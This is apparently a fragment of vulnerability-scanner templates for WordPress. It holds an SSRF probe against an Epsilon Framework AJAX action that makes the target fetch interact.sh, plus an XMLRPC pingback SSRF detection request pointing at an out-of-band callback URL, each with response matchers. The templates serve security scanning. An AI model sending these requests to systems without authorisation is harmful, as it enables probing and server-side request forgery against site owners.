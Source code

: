 ```
POST /wp-admin/admin-ajax.php?action=action_name HTTP/1.1
Host: {{Hostname}}
Content-Type: application/x-www-form-urlencoded; charset=UTF-8

action=epsilon_framework_ajax_action&args%5Baction%5D%5B%5D=Requests&args%5Baction%5D%5B%5D=request_multiple&args%5Bargs%5D%5B0%5D%5Burl%5D=http://interact.sh

```

### Matchers

**Type - word**

- part - body
- words
  1. Interactsh Server
  2. protocol_version

**Type - status**

- status
  1. 200

---

# Wordpress XMLRPC Pingback detection

- severity - info
- tags - wordpress,ssrf,oast,xmlrpc

## Requests

### Step - 1

```
POST /xmlrpc.php HTTP/1.1
Host: {{Hostname}}

<methodCall>
  <methodName>pingback.ping</methodName>
  <params>
    <param>
      <value>
        <string>http://{{interactsh-url}}</string>
      </value>
    </param>
    <param>
      <value>
        <string>{{BaseURL}}/?p=1</string>
      </value>
    </param>
  </params>
</methodCall>

```
